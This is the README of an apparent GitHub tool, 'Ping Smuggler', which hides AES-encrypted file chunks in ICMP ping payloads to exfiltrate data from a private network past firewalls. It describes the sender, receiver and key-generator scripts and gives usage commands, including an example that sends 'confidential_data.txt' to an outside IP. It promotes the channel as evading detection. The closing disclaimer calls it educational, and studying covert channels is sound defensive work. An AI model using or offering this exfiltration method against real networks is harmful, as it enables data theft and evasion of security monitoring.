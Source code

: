 # Ping Smuggler

Ping Smuggler is a Python tool designed to exfiltrate data from a private network by sending encrypted payloads
disguised as ICMP ping packets. This technique can be used to bypass firewalls that allow ICMP ping traffic while
maintaining a covert channel for data transmission.

## Overview

This repository contains three Python scripts:

1. **Sender Script (sender.py):**
    - Reads a text file and encrypts its contents into chunks.
    - Sends the encrypted chunks as ICMP payloads to a specified destination IP address.
c
2. **Receiver Script (receiver.py):**
    - Listens for incoming ICMP packets and captures them.
    - Decrypts the encrypted payloads contained within the ICMP packets.
    - Reconstructs the original text file from the decrypted chunks.

3. **Key Generator Script (key_generator.py):**
    - Generates a random encryption key for use with the sender and receiver scripts.
    - The key must be shared between the sender and receiver to encrypt and decrypt the data.

## Working Principle

Ping Smuggler utilizes the following approach to exfiltrate data:

1. **Encryption and Transmission (Sender Script):**
    - The sender script encrypts the data from a text file using AES encryption.
    - The encrypted data is split into chunks, and each chunk is sent as the payload of an ICMP ping packet to the
      specified destination IP address.

2. **Decryption and Reconstruction (Receiver Script):**
    - The receiver script captures the ICMP ping packets containing the encrypted payloads.
    - It decrypts the encrypted payloads using the same AES key.
    - Finally, it reconstructs the original text file from the decrypted chunks.

### Usage

### Sender Script (sender.py)

```bash
python sender.py <file_path> <destination_ip> <key>
```

- <file_path>: Path to the text file to be exfiltrated.
- <destination_ip>: IP address of the receiving computer outside the private network.
- <key>: Encryption key (16, 24, or 32 bytes) for AES encryption.

### Receiver Script (receiver.py)

```bash
python receiver.py <key> <output_cap_file> <output_text_file>
```

- <key>: Encryption key (must match the key used by the sender script).
- <output_cap_file>: Path to store the captured ICMP packets (in .cap format).
- <output_text_file>: Path to store the reconstructed text file.

### Example

## Sender Script

```bash
python sender.py confidential_data.txt 203.0.113.5 top_secret_key
```

## Receiver Script

```bash
python receiver.py top_secret_key received_packets.cap received_text.txt
```

### Usage Scenario

Ping Smuggler can be utilized in scenarios where ICMP ping traffic is allowed through a firewall, providing a covert
channel for exfiltrating sensitive data from a private network. By disguising encrypted data as ICMP ping payloads, Ping
Smuggler enables the transfer of data without raising suspicion or triggering firewall rules.

### Diagram

```lua
   Private Network            Firewall            Outside Network
+-------------------+    +-----------------+    +-------------------------+
|                   |    |    Firewall     |    |                         |
|   Sender          +--->+                 +--->+    Receiver             |
|                   |    |   (Allowing     |    |                         |
+-------------------+    |   ICMP Ping)    |    +-------------------------+
     Encrypts            +-----------------+            Decrypts
     Payloads                                           Payloads
```

In this diagram, Ping Smuggler bypasses the firewall by sending encrypted payloads disguised as ICMP ping packets,
allowing for the exfiltration of data from the private network to the outside network.

### Dependencies

- Python 3.x
- scapy
- cryptography

```bash
pip install -r requirements.txt
```

### Disclaimer

Please use Ping Smuggler responsibly and only in accordance with applicable laws and regulations. Unauthorized or
malicious use of this tool may result in legal consequences. 
The authors of this tool are not responsible for any misuse or damage caused by Ping Smuggler. 
This tool is intended for educational and research purposes only.
